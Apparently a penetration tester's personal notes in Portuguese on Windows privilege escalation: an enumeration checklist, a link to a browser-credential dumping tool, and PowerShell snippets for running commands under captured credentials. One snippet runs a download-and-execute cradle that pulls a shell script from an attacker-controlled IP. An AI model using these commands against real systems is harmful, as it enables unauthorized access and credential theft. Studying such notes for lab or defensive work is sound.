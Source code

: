 # Windows PrivEsc

1. [Check](<Windows_PrivEsc.md#DirectoryEnum>) Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio
2. [Check](<Windows PrivEsc.md#Winpeas>) Rodar o WinPEAS para verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk
3. [Check](<Windows PrivEsc.md#PowerUp>) Rodar o PowerUp
4. [Check](<Windows PrivEsc.md#Credenciais no registro>) checar credenciais no registro do windows
5. checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles
6. [Check](<Windows PrivEsc.md#ScheduledTasks>) checar as scheduleds tasks
7. verificar se existe algum servico rodando em localhost para exploracao de escalacao de privilegio
8. em sistemas mais antigos, explorar vulnerabilidades de kernel
9. Ja peguei cenarios em que uma maquina virtual estava instalada na maquina e foi possivel obter credenciais no historico desta mesma maquina
10. Testes mais basicos como testar a propria credencial do usuário ja comprometido para o Administrator tambem pode
11. Enumerar os discos da máquina e procurar por senhas ou arquivos sensíveis dentro destes.
12. Kernel exploits. Verificar a versão de kernel do windows. systeminfo
13. whoami /all ou /priv. Verificar privilégios do usuário. Vale considerar que estamos a procura do SEImpersonate.
14. Navegar nos diretórios C:\users, C:\program files, c:\program files (x86) afim de achar algum arquivo com informação sensível ou binário que possa ser explorado com exploits, por exemplo.
15. Winpeas e PowerUp
16. Verificar serviços em localhost
17.
    9. Verificar scheduled taskts
18. Verificar credenciais em cache
19. Verificar credenciais no registro
20. Verificar unquoted service path (DLL Hijacking)
21. Weak service permissions

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

## Com credencial

```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:
